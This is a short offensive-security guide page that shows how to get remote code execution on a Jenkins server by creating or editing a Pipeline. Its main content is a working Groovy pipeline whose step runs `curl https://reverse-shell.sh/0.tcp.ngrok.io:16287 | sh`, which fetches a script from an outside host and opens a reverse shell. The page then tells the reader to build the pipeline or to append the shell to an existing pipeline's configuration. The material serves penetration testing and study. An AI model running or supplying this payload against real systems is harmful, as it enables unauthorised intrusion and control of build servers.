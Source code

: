 # Jenkins RCE Creating/Modifying Pipeline

## Creating a new Pipeline

In "New Item" (accessible in `/view/all/newJob`) select **Pipeline:**

![[../../images/image (235).png]]

In the **Pipeline section** write the **reverse shell**:

![[../../images/image (285).png]]

```groovy
pipeline {
    agent any

    stages {
        stage('Hello') {
            steps {
                sh '''
                    curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
                '''
            }
        }
    }
}
```

Finally click on **Save**, and **Build Now** and the pipeline will be executed:

![[../../images/image (228).png]]

## Modifying a Pipeline

If you can access the configuration file of some pipeline configured you could just **modify it appending your reverse shell** and then execute it or wait until it gets executed.


